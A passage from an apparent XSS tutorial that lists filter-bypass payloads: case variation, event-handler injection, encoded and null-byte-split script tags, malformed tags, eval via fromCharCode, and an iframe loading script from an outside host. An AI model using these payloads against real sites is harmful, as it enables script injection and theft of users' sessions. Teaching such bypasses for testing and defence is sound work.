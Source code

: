 #### 4. URL Context
Input used in URLs/href attributes:
```html
<a href="USER_INPUT">Click</a>
```
Test with: `javascript:alert(1)` 

## Bypassing XSS Filters

Modern applications often implement filters to block XSS attacks. Here are common bypass techniques:

### 1. Case Variation
Bypass case-sensitive filters:
```html
<ScRiPt>alert(1)</ScRiPt>
```

### 2. Tag Attribute Attacks
Use event handlers instead of script tags:
```html
" onfocus="alert(1) autofocus="
```

### 3. Encoding Techniques
- HTML entities: `&lt;script&gt;alert(1)&lt;/script&gt;`
- Hex encoding: `\x3cscript\x3ealert(1)\x3c/script\x3e`
- Unicode: `\u003cscript\u003ealert(1)\u003c/script\u003e` 

### 4. Null Byte Injection
Insert null bytes to break filters:
```html
<scri%00pt>alert(1)</script>
```

### 5. Malformed Tags
Exploit browser tolerance for broken HTML:
```html
<<script>alert(1)//<</script>
```

### 6. JavaScript Functions
Use alternative JavaScript execution methods:
```javascript
eval(String.fromCharCode(97,108,101,114,116,40,49,41))
```

### 7. Protocol Resolution
Bypass URL filters:
```html
<iframe src=//xss.rocks/script.js>
```
